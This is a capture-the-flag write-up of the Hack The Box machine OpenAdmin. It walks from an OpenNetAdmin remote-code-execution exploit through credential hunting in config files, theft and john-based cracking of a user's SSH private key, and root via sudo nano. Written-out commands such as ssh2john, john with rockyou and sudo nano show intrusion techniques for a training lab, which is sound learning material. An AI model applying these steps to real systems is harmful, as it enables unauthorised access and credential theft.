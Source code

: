 ```yaml
---
description: https://app.hackthebox.com/machines/222
---
```


# 🏸 OpenAdmin

<figure><img src="../../../../.gitbook/assets/image (474).png" alt=""><figcaption></figcaption></figure>

#### There are three directories on the webserver. `/artwork`, `sierra`, and what else?

<figure><img src="../../../../.gitbook/assets/image (475).png" alt=""><figcaption></figcaption></figure>

#### On the page at `/music`, there is a link that doesn't point to another link on `/music`, but rather an administration tool. What is the relative path?

On the /login, we get access to a "control panel"

<figure><img src="../../../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

#### What is the version number of OpenNetAdmin that runs on the remote machine?

<figure><img src="../../../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>

#### If you exploit this instance to get code execution on the machine, in the context of what user is the execution happening?

Found this repo on the OpenNetAdmin 18.1.1 -> [https://github.com/amriunix/ona-rce/blob/master/ona-proof.png](https://github.com/amriunix/ona-rce/blob/master/ona-proof.png)

just cloned it and looked at the syntax&#x20;

<figure><img src="../../../../.gitbook/assets/image (478).png" alt=""><figcaption><p>Easy W</p></figcaption></figure>

#### What's the password of the user, jimmy?

First, we download linenum.sh and rename it with lower cases&#x20;

then on our local machine, we open a local python server&#x20;

then on our shell we `wget [local.IP]:port/linenum.sh`

<figure><img src="../../../../.gitbook/assets/image (479).png" alt=""><figcaption></figcaption></figure>

don't forget to "chmod +x linenum.sh" before running it

We unfortunately don't find anything, so let's enum manually

after a bit of enumeration, we wind in the /local/config file ->

<figure><img src="../../../../.gitbook/assets/image (480).png" alt=""><figcaption></figcaption></figure>

interesting passwd occurrence, let's try to abuse it&#x20;

open another terminal and try to connect to jimmy utilizing ssh ->

<figure><img src="../../../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

some more enumeration later, we find a main.php file with a password inside jimmy's session:

<figure><img src="../../../../.gitbook/assets/image (482).png" alt=""><figcaption></figcaption></figure>

let's try to connect to the other user that's on this machine:

<figure><img src="../../../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>

While doing a `cat main.php` -> we can see this output:

<figure><img src="../../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

We see that there is a `shell_exec` command that executes the shell command `cat /home/joanna/.ssh/id_rsa`. This command retrieves the content of the file `/home/joanna/.ssh/id_rsa`, which contains the RSA private key.

Let's try a simple curl:

<figure><img src="../../../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>

weird, let's try to see what's happening in the background ->

<figure><img src="../../../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

we can see some things are listening on the backend, let's try via those ports

the 3306 did not work, but ->

<figure><img src="../../../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

That's a very nice find, let's continue&#x20;

copy and paste the key on your local machine in a sshkey file, then download ssh2john [https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

make the file executable with a chmod +x and then:&#x20;

```
python ssh2john.py rsakey >output
```

<figure><img src="../../../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>

and now let's try to brute force this ssh key ->

```
john --wordlist=/usr/share/wordlists/rockyou.txt output
```

<figure><img src="../../../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

Massive W here boys -> let's get onto the next step

so now we know the passphrase for the ssh key is "bloodninjas"

set chmod 600 to the rsakey file, or it will not let you use it&#x20;

then&#x20;

```
sudo ssh -i rsakey joanna@10.129.208.136
```

<figure><img src="../../../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

First Privesc step of this user will be the famous "sudo -l" command

<figure><img src="../../../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>

We then&#x20;

```
sudo /bin/nano /opt/priv
```

then, we CRTL+R

<figure><img src="../../../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

and we get the result:

<figure><img src="../../../../.gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

Congrats boys

